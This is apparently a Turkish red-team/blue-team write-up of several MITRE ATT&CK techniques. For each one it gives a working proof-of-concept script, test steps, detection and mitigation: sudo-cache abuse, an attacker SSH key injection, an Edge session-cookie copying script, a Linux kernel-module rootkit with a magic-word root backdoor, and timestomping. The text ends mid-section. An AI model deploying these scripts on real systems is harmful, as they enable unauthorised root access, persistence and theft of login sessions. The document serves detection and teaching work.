








# 1. T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching

## YAML

```yaml
title: "Abuse Elevation Control Mechanism: Sudo Caching"
t_id: "T1548.003"
tactic:
  - "Privilege Escalation"
impact:
  - "Privilege Escalation"
platform: "Linux, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-04"
detection_level: "Medium"
required_access: "User"
description: "Linux/macOS sistemlerde yapılandırmaya bağlı olarak belirli bir süre geçerli olan sudo timestamp cache'den faydalanılarak kullanıcının herhangi bir sudo kullanımının ardından şifre gerektirmeden arka planda root yetkisiyle komut çalıştırması."
```

## PoC - Sudo Cache Abuse

Script arka planda çalışarak sudo cache'in açılmasını bekler. Kullanıcı herhangi bir nedenle sudo kullandığında (paket güncellemesi vb.) oluşan cache penceresini yakalar ve kendisine tanımlanan işlemleri şifre sorulmadan root yetkisiyle halleder.

### Platform Farkları

Bu teknik, doğrudan **Linux** ve **macOS** sistemlerinde kullanılan **`sudo` yetkilendirme mekanizmasına** dayanır. Bu nedenle **sudo cache** bulunduğu ortamlarda uygulanabilir.

**Windows** sistemlerinde ise yetki yükseltme işlemleri **User Account Control (UAC)** üzerinden yürütülür ve yetkilendirme mantığı yapısal olarak farklıdır. Bu sebeple Windows ortamlarında **Sudo Caching** yaklaşımı yerine genellikle **MITRE ATT&CK T1548.002 – Bypass User Account Control (UAC)** kapsamındaki tekniklere bakılır.

#### Script (cache_abuse.sh):

``` bash

#!/bin/bash
#T1548.003 - Sudo Cache Abuse PoC

echo "Sudo cache bekleniyor..."

while true; do
    #sudo -n' şifre isterse false döner cache açıksa başarılı olur
    if sudo -n true 2>/dev/null; then
        echo "Sudo cache geldi root islemi hallediliyor..."
        #Root yetkisiyle yapılacak işlemler
        sudo bash -c 'echo "Timestamp cache istismar edildi!" > /tmp/root_poc.txt'
        sudo chmod 777 /tmp/root_poc.txt
        echo "Inanmiyorsan bak >>> /tmp/root_poc.txt"
        break
    fi
    sleep 2
done
```

## Test

1. Hedef makinede `bash cache_abuse.sh &` komutu ile scripti arka planda çalıştır.

2. Ardından hiçbir şey olmamış gibi normal bir sudo komutu çalıştır (örneğin `sudo ls /root`) ve şifreyi gir.

3. Şifre girildiği anda arka planda bekleyen script sudo cache'in açıldığını algılıyor ve tanımlı işlemi root yetkisiyle gerçekleştiriyor.

4. Son olarak `ls -l /tmp/root_poc.txt` çıktısını kontrol ederek işlemin başarılı olup olmadığına bak. Eğer işlem başarılıysa dosyanın sahibi `root root` olmalıdır.

<div align="center">
  
  <br>
  <em>Şekil 1: Sudo cache istismarı ile root yetkisinde backdoor dosyasının oluşturulması</em>
</div>


## Detection

Bu teknik normal bir sudo kullanıcısının normal bir sudo kullanımının arkasına gizlendiği için standart loglardan tespit edilmesi her zaman kolay değildir. Tespiti için özellikle aşağıdaki noktalara dikkat edilmelidir.

* **Process Monitoring :** Bu tekniğin tespitindeki en önemli nokta süreç takibidir. EDR/XDR çözümleri veya `auditd` kullanılarak `-n` parametresiyle çalışan `sudo` süreçleri izlenmelidir. Otomasyon sistemleri ve CI/CD ortamları dışındaki normal kullanıcı oturumlarında görülen beklenmedik `sudo -n` kullanımları anormal olarak değerlendirilmelidir.

* **TTY Kontrolü:** TTY olmadan çalışan arka plan süreçlerinden gelen `sudo` komutları izlenmelidir.

* **Log Analizi:** `/var/log/auth.log` veya `/var/log/secure` dosyalarındaki kısa zaman içinde gerçekleşen ardışık `sudo` işlemleri incelenmelidir.

## Mitigation

Sudo timestamp cache istismarını zorlaştırmak için `/etc/sudoers` dosyasında bazı sıkılaştırmalar yapılabilir:

* **Cache'i Tamamen Kapatmak :** `Defaults timestamp_timeout=0` ayarı ile sudo önbelleği devre dışı bırakılabilir. Bu durumda kullanıcı her sudo komutunda parolasını tekrar girmek zorunda kalır. Kullanım kolaylığını azaltır ancak cache tabanlı istismarların önüne geçer.

* **TTY Tickets :** `Defaults tty_tickets` ayarı, oluşturulan sudo cache'inin yalnızca şifrenin girildiği terminal oturumu için geçerli olmasını sağlar. Böylece farklı bir terminalden veya TTY'si olmayan arka plan süreçlerinden aynı cache'in kullanılması zorlaştırılır.

* **Sudoers Yapılandırmasının Gözden Geçirilmesi:** Gereksiz `NOPASSWD` tanımları kaldırılmalı ve kullanıcıların ihtiyaç duymadığı sudo yetkileri sınırlandırılmalıdır.

# 2. T1098.004 - Account Manipulation: SSH Authorized Keys

## YAML

```yaml
title: "Account Manipulation: SSH Authorized Keys"
t_id: "T1098.004"
tactic:
  - "Persistence"
impact:
  - "Persistence"
platform: "Linux, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-05"
detection_level: "Medium"
required_access: "User"
description: "Saldırganın kullanıcının ~/.ssh/authorized_keys dosyasına kendi public SSH anahtarını ekleyerek hedef sisteme şifre gerektirmeyen ve uzun süreli erişim sağlaması."
```

## PoC - SSH Authorized Keys

Script hedef makinede çalıştırılır. Kullanıcının .ssh dizinini ve authorized_keys dosyasını kontrol eder. Eğer yoksa oluşturur. Ardından dosyanın içinde saldırganın key'i zaten var mı diye bakar yoksa public key'i dosyanın sonuna ekler.

Kullanıcının şifresini değiştirmesi erişimi etkilemez. Sistemde PubkeyAuthentication açık olduğu sürece saldırgan amacına ulaşabilir.

### Platform Farkları

Eskiden bilinen haliyle bu teknik **Linux** ve **macOS** sistemlerde kullanıcı dizininde bulunan **`~/.ssh/authorized_keys`** dosyasının değiştirilmesine dayanır. Yetkisiz bir SSH keyin bu dosyaya eklenmesi saldırgana kalıcılık sağlayabilir.

Günümüzde ise **Windows 10** ve **Windows 11** sistemlerde yerleşik **OpenSSH Server** desteği bulunduğundan dolayı aynı yaklaşım Windows ortamlarında da uygulanabilmektedir. Bu kapsamda standart kullanıcı hesapları için **`C:\Users\<kullanıcı>\.ssh\authorized_keys`**, admin hesapları için ise **`%PROGRAMDATA%\ssh\administrators_authorized_keys`** dosyaları hedef alınabilir.

#### Script (ssh_persistence.sh):

```bash
#!/bin/bash
#T1098.004 - SSH Authorized Keys PoC

echo "SSH authorized_keys saldirisi basliyor..."

#.ssh dizini yoksa olustur
if [ ! -d "$HOME/.ssh" ]; then
    mkdir -p "$HOME/.ssh"
    chmod 700 "$HOME/.ssh"
fi

#Saldirganin Public Key'i
ATTACKER_PUB_KEY="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC... saldirgan@arch"

#Duplicate kontrolu
grep -qxF "$ATTACKER_PUB_KEY" "$HOME/.ssh/authorized_keys" 2>/dev/null || \
echo "$ATTACKER_PUB_KEY" >> "$HOME/.ssh/authorized_keys"

#Izinleri ayarla
chmod 600 "$HOME/.ssh/authorized_keys"

echo "Islem tamam saldırgan artık sifresiz ssh atabilir."
echo "Kontrol icin >>> cat ~/.ssh/authorized_keys"

```

## Test

1. Host cihazda `cat ~/.ssh/id_rsa.pub` komutunu çalıştır ve sonucunda çıkan keyi kopyala.

2. Hedef makinede `ssh_persistence.sh` dosyasını oluştur kodun içindeki **ATTACKER_PUB_KEY** değişkenine kopyaladığın kendi keyini yapıştır.

3. Hedef makinede scripti çalıştır.

4. Son olarak da ssh ile karşı hedef makineye bağlanmaya çalıştığında sistem hiçbir şifre istemeden seni içeri alacaktır.

<div align="center">
  
  <br>
  <em>Şekil 2: Hedef sisteme yetkisiz SSH anahtarı ile şifresiz erişim</em>
</div>
.

## Detection

Bu teknik normal bir dosya yazma işlemi olduğu için eğer dosya bütünlük kontrolü yapılmıyorsa uzun süre tespit edilemeyebilir. Tespiti için şunlara dikkat edilmelidir:

* **File Integrity Monitoring :** Wazuh gibi araçlar kullanılarak sistemdeki tüm kullanıcıların `~/.ssh/authorized_keys` dosyalarındaki değişiklikler izlenmeli ve yeni bir key eklendiğinde alarm üretilmelidir.

* **Auditd Kullanımı :** Auditd ile `~/.ssh/authorized_keys` dosyasına yapılan yazma  işlemleri kayıt altına alınmalıdır.

* **Log Analizi :** `/var/log/auth.log` veya `/var/log/secure` dosyaları üzerindeki public key ile yapılan SSH login denemeleri incelenmelidir.

## Mitigation

SSH yetki istismarını zorlaştırmak için `/etc/ssh/sshd_config` dosyasında bazı sıkılaştırmalar yapılabilir:

* **Merkezi Key Yönetimi :** `AuthorizedKeysFile` parametresi kullanıcı dizini yerine sadece root yetkisiyle değiştirilebilen merkezi bir dizine yönlendirilebilir. Bu sayede standart kullanıcı kendi key dosyasını editleyemez.

* **Sınırlı Erişim :** Sadece belirli IP adreslerinden gelen SSH bağlantılarına izin verilmeli servis dışarıya tamamen açık bırakılmamalıdır.

* **Dosya İzinleri :** Mevcut `authorized_keys` dosyaları oluşturulduktan sonra `chattr +i` komutu ile immutable hale getirilerek yetkisiz eklemelerin önüne geçilebilir.

# 3. T1539 - Steal Web Session Cookie


## YAML

```yaml
title: "Steal Web Session Cookie"
t_id: "T1539"
tactic:
  - "Credential Access"
impact:
  - "Session Replay"
  - "Account Takeover"
  - "MFA Bypass"
platform: "Windows, Linux, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-14"
detection_level: "Medium"
required_access: "User"
description: "Tarayıcıların profil dizinlerinde saklanan web oturum çerezi veritabanlarının kopyalanması yoluyla kullanıcı oturum verilerinin elde edilmesi. Bu teknik saldırganların daha sonraki aşamalarda session replay, account takeover ve MFA bypass gibi faaliyetler gerçekleştirmesine olanak sağlayabilir."

```

## PoC - Steal Web Session Cookie

Bu teknik hedef sistemlerdeki tarayıcı profil dosyalarına yetkisiz erişimi hedefler. T1539'un günümüzde en sık kullanıldığı senaryo Windows sistemlerdeki Chromium tabanlı tarayıcıların infostealer zararlıları tarafından hedeflenmesidir.

### Platform Farkları

* **Windows (Chromium):** Edge ve Chrome gibi tarayıcılar oturum çerezlerini SQLite veritabanında saklar. Çerezler işletim sistemi koruma mekanizmaları ve key management (Local State içindeki encrypted key) ile korunur. Bu yüzden sadece `Cookies` dosyasını değil, `Local State` dosyasını da çalmak gerekir.
* **Linux / macOS (Firefox):** Firefox web sitelerine ait cookie kayıtlarını profil dizini altındaki `cookies.sqlite` veritabanında saklar. Bu kayıtlar içerisinde oturum yönetiminde kullanılan cookie verileri Windows'taki gibi DPAPI benzeri merkezi bir işletim sistemi şifrelemesine tabi tutulmadan doğrudan SQLite veritabanı üzerinden (çoğunlukla plaintext veya master password'e bağlı olarak) çekilebilir.

#### Script (edge_stealer.ps1):

```powershell
#T1539 - Web Session Cookie Collection PoC (Windows/Edge)

Write-Host "Tarayici oturum verileri bulunuyor..." -ForegroundColor Yellow

$EdgeProfile = "$env:LOCALAPPDATA\Microsoft\Edge\User Data"
$StagingDir  = "$env:TEMP\StolenWebData"

if (-not (Test-Path $StagingDir)) { New-Item -ItemType Directory -Force -Path $StagingDir | Out-Null }

$CookiesPath1 = "$EdgeProfile\Default\Network\Cookies"
$CookiesPath2 = "$EdgeProfile\Default\Cookies"
$LocalState   = "$EdgeProfile\Local State"

$TargetCookies = if (Test-Path $CookiesPath1) { $CookiesPath1 } elseif (Test-Path $CookiesPath2) { $CookiesPath2 } else { $null }

if ($TargetCookies -and (Test-Path $LocalState)) {
    Write-Host "Profil bulundu. Veriler exfiltration icin kopyalaniyor..." -ForegroundColor Green
    Copy-Item -Path $TargetCookies -Destination "$StagingDir\Cookies" -Force
    Copy-Item -Path $LocalState -Destination "$StagingDir\Local_State" -Force
    Write-Host "Islem tamam. Calinan dosyalar $StagingDir dizinine alindi." -ForegroundColor Green
} else {
    Write-Host "Tarayici veritabanlari bulunamadi." -ForegroundColor Red
}

```

## Test

1. `edge_stealer.ps1` scriptini çalıştırarak verilerin kopyalandığını doğrula.
2. Python ile AES şifreli blobların teknik olarak elde edildiğini görmek için şu komutu çalıştır:
`python -c "import sqlite3, os; c=sqlite3.connect(os.path.expandvars(r'%TEMP%\StolenWebData\Cookies')).cursor(); c.execute('SELECT host_key, name, encrypted_value FROM cookies LIMIT 5'); print('\n[AES SIFRELI BLOBLAR]'); [print(f' -> Host: {r[0]:<15} | Deger: {r[2][:15].hex()}...') for r in c.fetchall()]"`

<div align="center">
  
  <br>
  <em>Şekil 3: Hedef sistemden elde edilen AES oturum çerezi blobları</em>
</div>


## Detection

* **File Access Monitoring :** EDR/XDR sistemleri üzerinden tarayıcı profil dizinlerindeki (`%LOCALAPPDATA%\...\User Data` veya `~/.mozilla/firefox/`) kritik dosyalara `powershell.exe`, `bash`, `cp`, `python` gibi beklenmeyen process'lerin erişimi kısıtlandırılmalıdır.
* **Process Lineage :** Terminal veya scriptler aracılığıyla `.sqlite` dosyalarının geçici dizinlere (`%TEMP%`, `/tmp`) topluca kopyalanması yüksek şüpheli davranış olarak işaretlenmelidir.
* **Şifreleme Servisi Anomalileri :** Windows ortamında zararlılar oturum materyallerini hedef sistemde çözmeyi denerse, `CryptUnprotectData` (DPAPI) gibi şifre çözme çağrılarının tarayıcılar haricindeki süreçler tarafından yapılması izlenmelidir.

## Mitigation

* **Sandboxing ve İzolasyon :** İşletim sistemlerinde tarayıcılar donanım tabanlı (Windows Defender Application Guard) veya yazılımsal (Flatpak, Snap) izolasyon mekanizmaları içinde çalıştırılmalıdır. Bu mekanizmalar, farklı süreçlerin tarayıcı verilerine erişimini zorlaştırarak saldırı yüzeyini azaltır.
* **Device-Bound Cookies / Token Binding :** Oturum çerezleri kriptografik olarak kullanıcının donanımına (ör. TPM, cihaz anahtarı, device attestation) bağlanmalıdır. Bu sayede diskten çalınan bir çerez, saldırganın kendi makinesinde kullanılamaz (Session Replay engellenir).
* **Conditional Access :** Kritik oturumların geçerlilik süreleri kısa tutulmalı, olağan dışı lokasyon veya farklı bir tarayıcı parmak izinden (fingerprint) gelen isteklerde oturum reddedilerek yeniden MFA talep edilmelidir.

# 4. T1014 - Rootkit


## YAML

```yaml
title: "Rootkit"
t_id: "T1014"
tactic:
  - "Defense Evasion"
impact:
  - "Defense Evasion"
  - "Privilege Escalation"
  - "Persistence"
platform: "Linux, Windows, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-25"
detection_level: "High"
required_access: "Root"
description: "Saldırganların sistemdeki varlıklarını güvenlik yazılımlarından saklamak veya backdoor oluşturmak amacıyla kernele müdahale etmesi."

```

## PoC - Rootkit (Loadable Kernel Module - LKM)

Bu teknik Ring 0'da (Kernel) kod çalıştırmayı hedefler. Gelişmiş rootkitler syscall hooking ile zararlı süreçleri gizler.

Bu çalışmada "Kernel Backdoor" simüle edilmiştir. Yüklenen modül Kernel içerisinde özel bir arayüz açarak doğru kelimeyi bilen herhangi bir yetkisiz kullanıcının `cred` yapılarını anında UID 0 olarak günceller.

### Platform Farkları

Bu PoC doğrudan **Linux** sistemlerin çekirdeğine özgü olan **Loadable Kernel Module (LKM)** yöntemini kullanır ve Linux çekirdeğindeki `cred` yapılarını manipüle eder.

**Windows** sistemlerinde bu tekniğin karşılığı; **Kernel-Mode Driver (KMD)** yükleyerek veya Kernel Patch Protection'ı aşarak token manipülasyonu yapmaktır. **macOS** sistemlerde ise Kernel Extensions (KEXT) veya System Extensions kullanılır. Yani kısacası hepsinde amaç Ring 0 da kod çalıştırabilmektir.

#### Script (rootkit_poc.c ve Makefile):

**1. C Kaynak Kodu (rootkit_poc.c):**

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <linux/uaccess.h>
#include <linux/cred.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Muzaffer Murat Kilit");
MODULE_DESCRIPTION("LKM Rootkit - Magic Backdoor");

static struct proc_dir_entry *zayotem_proc;

//Kernel'a disaridan veri yazildiginda tetiklenecek fonksiyon
static ssize_t magic_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos) {
    char buf[16];
    int to_copy = count < sizeof(buf) ? count : sizeof(buf) - 1;
    
    if (copy_from_user(buf, ubuf, to_copy)) return -EFAULT;
    buf[to_copy] = '\0';

    //Eger magic word ("ZAYOTEM") gelirse, cagiran processin yetkilerini root yap (DKOM)
    if (strncmp(buf, "ZAYOTEM", 7) == 0) {
        struct cred *new_creds = prepare_creds();
        if (new_creds) {
            new_creds->uid.val = new_creds->euid.val = 0; // Root yetkisi
            new_creds->gid.val = new_creds->egid.val = 0;
            commit_creds(new_creds);
            printk(KERN_INFO "[ZAYOTEM-ROOTKIT] Magic word tetiklendi! Kullaniciya Ring 0 uzerinden UID 0 verildi.\n");
        }
    }
    return count;
}

static const struct proc_ops proc_fops = {
    .proc_write = magic_write,
};

static int __init rootkit_init(void) {
    //proc altinda gizli arayuz olustur (Herkes yazabilir: 0666)
    zayotem_proc = proc_create("zayotem_door", 0666, NULL, &proc_fops);
    printk(KERN_INFO "[ZAYOTEM-ROOTKIT] Modul yuklendi. /proc/zayotem_door acildi.\n");
    return 0;
}

static void __exit rootkit_exit(void) {
    proc_remove(zayotem_proc);
    printk(KERN_INFO "[ZAYOTEM-ROOTKIT] Modul kaldirildi.\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

```

**2. Derleme Dosyası (Makefile):**

```makefile
obj-m += rootkit_poc.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

## Test

1. Hedef sistemde `rootkit_poc.c` ve `Makefile` dosyalarını aynı dizine kaydedip terminalde `make` komutunu çalıştırarak `.ko` modülünü derle.
2. Modülü kernel'a inject etmek için `sudo insmod rootkit_poc.ko` komutunu çalıştır.
3. Şimdi root hesabından çıkıp **tamamen yetkisiz, herhangi bir user terminaline** geç.
4. Şimdi Rootkit'in açtığı backdoor'a doğru kelimeyi verin:
`echo "ZAYOTEM" > /proc/zayotem_door`
5. `whoami` komutunu çalıştırın ve **`root`** çıktısını görün.

<div align="center">
  
  <br>
  <em>Şekil 4: Kernel Backdoor modülü üzerinden Ring 0 erişimi</em>
</div>

## Detection

Ring 0 seviyesindeki bir Rootkit'i, Ring 3 seviyesinde çalışan standart güvenlik araçlarıyla tespit etmek zordur. Tespiti için şu yöntemler kullanılır:

* **Modül Logları:** `/var/log/kern.log` dosyası veya `dmesg` üzerinden, Tainted Kernel veya bilinmeyen yeni `.ko` modüllerinin yüklenmesi izlenmelidir.
* **Memory Analizi:** Rootkit'ler kendilerini modül listesinden silebilir. Memory dump alınarak `lsmod` çıktısında görünmeyen ancak bellekte çalışan `cred` yapılarını manipüle eden modüllerin Volatility gibi araçlarla tespit edilmesi gerekir.
* **Davranışsal Şüphe:** Bir kullanıcının auth.log'a düşmeden  aniden UID 0 yetkilerine sahip olması EDR sistemleri tarafından "Credential Manipulation" olarak loglanmalıdır.

## Mitigation

Kernel seviyesindeki müdahaleleri önlemek, sistemin temel yapılandırmasına dayanır:

* **Secure Boot :** UEFI Secure Boot aktif edildiğinde kernel yalnızca güvenilir, sertifikalı ve dijital olarak imzalanmış kernel modüllerinin yüklenmesine izin verir. İmzasız bir Rootkit sisteme yüklenemez.
* **Kernel Modüllerini Devre Dışı Bırakmak :** Sistem için gerekli olan tüm yasal sürücüler ve modüller boot sırasında yüklendikten sonra, `sysctl -w kernel.modules_disabled=1` komutu ile sistem kapanana kadar yeni modül yüklenmesi tamamen engellenebilir.
* **Erişim Kısıtlaması:** Sisteme kernel modülü yüklemek için her zaman ilk aşamada yetki gerekir. Bu nedenle Privilege Escalation açıklarının kapatılması Rootkit saldırılarını temelden önler.

# 5. T1070.006 - Indicator Removal on Host: Timestomp


## YAML

```yaml
title: "Indicator Removal on Host: Timestomp"
t_id: "T1070.006"
tactic:
  - "Defense Evasion"
impact:
  - "Defense Evasion"
platform: "Linux, Windows, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-25"
detection_level: "High"
required_access: "User"
description: "Forensic incelemelerini ve Incident Response süreçlerindeki timeline analizlerini atlatmak için zararlı dosyaların oluşturulma değiştirilme veya erişim tarihlerinin manipüle edilmesi."

```

## PoC - Timestomp

Timestomping, zararlı bir dosyanın sisteme yeni bırakıldığı gerçeğini gizlemek için kullanılır. Saldırgan sisteme indirdiği payload'un timestamp'ini işletim sisteminin yıllar önce oluşturduğu orijinal bir dosyanın timestamp'ıyla değiştirir. Böylece dosya forensic timeline analizlerinde yeni oluşturulmuş şüpheli bir dosya olarak göze batmaz.

### Platform Farkları

Bu teknik tüm işletim sistemlerinde LotL araçlarıyla rahatça uygulanabilir:

* **Linux / macOS:** Sistemde yerleşik bulunan `touch` komutu kullanılarak hedef dosyanın Modify, Access zamanları başka bir referans dosyadan kopyalanabilir.
* **Windows:** PowerShell üzerinden `$(Get-Item).CreationTime` ve `LastWriteTime` objeleri çağrılarak veya Anti-Forensic araçları kullanılarak dosya tarihleri doğrudan manipüle edilebilir.

#### Script (timestomp_poc.sh):

```bash
#!/bin/bash
#T1070.006 - Timestomp PoC (Linux)

echo "Timestomp islemi basliyor..."

#Zararliyi simule eden yeni bir dosya olustur
PAYLOAD="/tmp/zayotem_payload.elf"
echo "Malware payload icerigi" > "$PAYLOAD"

echo "Yeni payload olusturuldu. Orijinal zaman damgalari:"
stat "$PAYLOAD" | grep -E "Access:|Modify:|Change:"

echo "---------------------------------------------------"

#Kurban dosya
REF_FILE="/bin/bash"
echo "Kurban dosya ($REF_FILE) zaman damgalari kopyalaniyor..."

#Timestomp
touch -r "$REF_FILE" "$PAYLOAD"

echo "Timestomp basarili. Payload'un yeni zaman damgalari:"
stat "$PAYLOAD" | grep -E "Access:|Modify:|Change:"

```

## Test

1. Hedef Linux sistemde `timestomp_poc.sh` scriptini oluştur ve çalıştır.
2. Terminal çıktısında, `/tmp/zayotem_payload.elf` dosyasının ilk oluşturulduğunda şimdiki tarihi aldığını gör.
3. Script `touch -r` işlemini yaptıktan sonraki `stat` çıktısında, payload'un Modify ve Access tarihlerinin sistemdeki `/bin/bash` dosyasıyla birebir aynı olduğunu doğrula.

<div align="center">
  
  <br>
  <em>Şekil 5: MAC zaman damgalarının manipülasyonunun kanıtı</em>
</div>

## Detection

Sadece dosyanın MAC tarihlerine bakarak bir dosyanın timestomp yediğini anlamak imkansızdır. Forensic analizlerde tespit için şu alt katmanlara inilir:

* **MFT Analizi (Windows):** NTFS dosya sisteminde Master File Table (MFT) incelenir. `$STANDARD_INFORMATION` (uygulamalarla değiştirilebilir timestamp) ile `$FILE_NAME` (sadece kernel'ın değiştirebildiği timestamp)  arasındaki tutarsızlıklar bir Timestomp göstergesidir.
* **Dosya Sistemi Günlükleri (Linux/Windows):** Ext4 dosya sistemindeki `jbd2` kayıtları veya Windows'taki USN Journal logları incelenerek dosyanın diske asıl yazıldığı an tespit edilebilir.
* **FIM (File Integrity Monitoring):** Wazuh gibi araçlarla kritik dizinlerdeki dosyaların hash özetleri  ve attribute değişiklikleri anlık olarak izlenmeli timestamp bir anda geçmişe dönen dosyalar loglanmalıdır.

## Mitigation

Timestomp işlemi genellikle ilgili dosya üzerinde yazma değiştirme gibi yetkiler gerektirdiği için engellenmesi doğrudan yetki yönetimine dayanır:

* **Least Privilege :** Kullanıcıların izinleri kısıtlanabilir.
* **Merkezi Loglama:** Saldırgan host cihaz üzerindeki timestamp'i manipüle etse bile dosyanın ağ üzerinden indirildiği veya diske ilk yazıldığı anın logu silinemeyeceği için bu loglar anında SIEM'e aktarılmalıdır.

# 6. T1613 - Container and Resource Discovery


## 1. YAML

```yaml
title: "Container and Resource Discovery"
t_id: "T1613"
tactic:
  - "Discovery"
impact:
  - "Defense Evasion"
platform: "Linux, Windows, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-25"
detection_level: "Medium"
required_access: "User"
description: "Zararlı yazılımların analiz edilmekten kaçınmak amacıyla çalıştıkları ortamın bir VM, container  veya DFIR analiz sandbox'ı olup olmadığını çeşitli sistem izlerini sorgulayarak tespit etmesi."

```

## PoC - Container and Resource Discovery

Zararlılar çalıştırıldıkları ortamın bir analiz ortamı veya izole bir container olup olmadığını anlamak için Anti-Analysis teknikleri kullanır. Eğer zararlı ortamın bir sandbox veya analiz ortamı olduğunu doğrularsa dinamik analizden kaçmak için çalışmayı durdurur veya kendi yeteneklerini kısıtlayarak normal bir uygulamaymış gibi davranmaya başlar.

### Platform Farkları

Bu keşif süreci farklı işletim sistemi bileşenleri üzerinden yürütülür:

